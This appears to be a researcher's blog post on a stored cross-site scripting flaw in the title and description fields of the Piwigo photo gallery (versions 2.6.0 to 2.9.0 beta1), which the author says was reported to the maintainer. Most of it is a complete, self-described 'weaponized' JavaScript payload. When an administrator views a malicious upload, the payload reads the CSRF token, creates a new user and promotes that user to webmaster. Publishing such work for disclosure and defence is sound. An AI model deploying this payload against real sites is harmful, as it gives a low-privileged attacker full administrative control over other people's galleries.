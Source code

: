```yaml
---
title: "Stored XSS in Piwigo 2.6.0 -> 2.9.0 beta1"
date: 2020-03-06
description: "A weaponized stored XSS example"
summary: "A weaponized stored XSS example"
tags: ["XSS","Piwigo"]
---
```


## Background

Back in October 2016 I reported a stored cross-site scripting (XSS) vulernability in the Piwigo photo gallery CMS to the maintainer. The `Title` and `Description` fields of uploaded photos are not being properly sanitized or escaped by the Community plugin or Piwigo Core before being reflected back in the application response.

![](/images/bugs/piwigo/xss1-1.png)

![](/images/bugs/piwigo/xss1-2.png)

## Privesc to Webmaster via Stored XSS

From an attackers perspective this stored XSS is great because a low privileged user can upload a photo which needs to be approved by an administrator. If the Community plugin is installed and enabled then non administrative users are able to exploit this vulnerability and execute arbitray code as an administrator. 

To weaponise this stored XSS, lets create two XHR requests:
- The first request will create a new user 
- The second request will promote the new user from a standard user account to a webmaster (highest privileges). 


```javascript
// grab the csrf token sent with each form submitted for creating users and updating their profiles
var csrf_token = $("input[name = pwg_token]").val();
// set username and password details
var username = "phish";
var password = "password123";
// set piwigo url
var piwigo_URL = "http://<target>";
// create a new XMLHttpRequest to create a new user
xhr = new XMLHttpRequest();
var create_User_URL = piwigo_URL+"/piwigo/ws.php?format=json&method=pwg.users.add";
xhr.open("POST", create_User_URL, true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.onreadystatechange = function() {
	if (xhr.readyState == 4 && xhr.status == 200) {
		// retrieve user id that our newly created user was assigned
		var user_Details = JSON.parse(xhr.responseText);
		var user_ID = user_Details.result.users[0].id;
		// promote user privs to webmaster
		xhr2 = new XMLHttpRequest();
		var update_User_Priv_URL = piwigo_URL+"/piwigo/ws.php?format=json&method=pwg.users.setInfo";
		xhr2.open("POST", update_User_Priv_URL, true);
		xhr2.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
		var update_User_Priv = "user_id="+user_ID+"&email=&status=webmaster&level=0&enabled_high=on&nb_image_page=15&theme=elegant&language=en_GB&recent_period=7&pwg_token="+csrf_token+"&group_id=-1&expand=false&show_nb_hits=false&show_nb_comments=false";
		xhr2.send(update_User_Priv);
	}
}
var create_User = "username="+username+"&password="+password+"&email=&pwg_token="+csrf_token;
xhr.send(create_User);
```

Now when an administrator logs in and views the malicious upload, the stored XSS payload will trigger and we can login with our new webmaster account.